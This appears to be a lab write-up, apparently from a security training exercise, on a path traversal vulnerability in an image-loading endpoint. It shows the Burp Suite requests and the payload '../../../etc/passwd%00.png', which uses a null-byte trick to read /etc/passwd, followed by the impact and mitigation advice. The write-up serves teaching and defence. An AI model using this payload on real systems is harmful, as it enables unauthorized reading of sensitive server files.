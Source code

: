**Example Intercepted Request:**
```
GET /image?filename=product1.jpg HTTP/1.1

Host: vulnerable-website.com

User-Agent: Mozilla/5.0
```
**2. Modifying the Request**
 - Identify the filename parameter in the request.

**Modify its value to perform directory traversal by entering:**
```
../../../etc/passwd%00.png
```
 - Forward the modified request to the server.

**Modified Request:**
```
GET /image?filename=../../../etc/passwd%00.png HTTP/1.1

Host: vulnerable-website.com

User-Agent: Mozilla/5.0
```

**3. Observing the Response**

 - Switch to the "HTTP history" tab in Burp Suite.

 - Review the server response.

 - If successful, the contents of the /etc/passwd file will be displayed in the response body, such as:

![Screenshot from 2025-01-08 13-47-12](https://github.com/user-attachments/assets/546260d7-2f4f-4269-9c26-b229cfd17bd7)

![Screenshot from 2025-01-08 13-47-20](https://github.com/user-attachments/assets/6c49acde-be8e-40e0-b5fe-6caf7afd1921)

**Explanation**
 - The vulnerability arises due to insufficient input validation, allowing attackers to manipulate the filename parameter to access files outside the intended directory.

**Impact**
 - Unauthorized access to sensitive system files (e.g., /etc/passwd, configuration files).
 - Potential exposure of credentials, user data, or internal information.

**Mitigation Strategies**
 - To prevent path traversal vulnerabilities, developers should:
 - Implement input validation to restrict file paths.
 - Use allowlists to permit only valid filenames.
 - Employ secure coding practices like basename() function to sanitize inputs.
 - Set proper server permissions to limit access to sensitive files.

**Conclusion**
 - This lab demonstrates how improper validation of user-supplied input in file retrieval functions can lead to unauthorized access to critical files on the server. Proper mitigation techniques should be implemented to prevent such attacks.
